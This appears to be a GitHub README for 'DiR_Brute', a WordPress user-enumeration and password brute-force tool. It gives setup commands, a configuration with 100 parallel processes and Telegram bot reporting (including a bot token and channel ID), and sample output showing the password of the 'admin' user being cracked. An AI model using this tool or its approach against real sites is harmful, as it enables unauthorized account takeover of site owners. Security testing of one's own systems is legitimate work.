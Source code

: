 DiR_Brute
=======

Wordpress user enumeration and password bruteforce.

  ####User Setup:
<code>$ ./Setup.sh</code>

  ####Configure file set :
<code>$ vi configure.conf</code>
<pre>
###############################################################
 
                  DIR BRUTE FORCE CONFIGURE
 
###############################################################
 
#Default Configure options
#-Use multiprocess ?
_Multiproccessing=ON
#-How Many Running Processes ? (Default 50)
_Processes=100
 
#Listing options
#-Extensions ex) php,html,txt
_Extension=php,txt
#-Logging only have size files
_Logging_1=OFF

#APIs
#-TelegramAPI Activation
_API_Enable=ON
#-Bot token ex) bot382743792:AAH3yf7N-h8WWD-xYD96m0V-PIozhcp86BE
_Bot_Token=bot381753792:AAH3yf7N-h9WWD-xYD96m0V-PIozhcp86BE
#-Channel ID ex) 1001393182576
_Channel_ID=1001393565576
</pre>
  ####Script use:
<code>$ ./dirbrute 'example.com' 'listfile name'</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
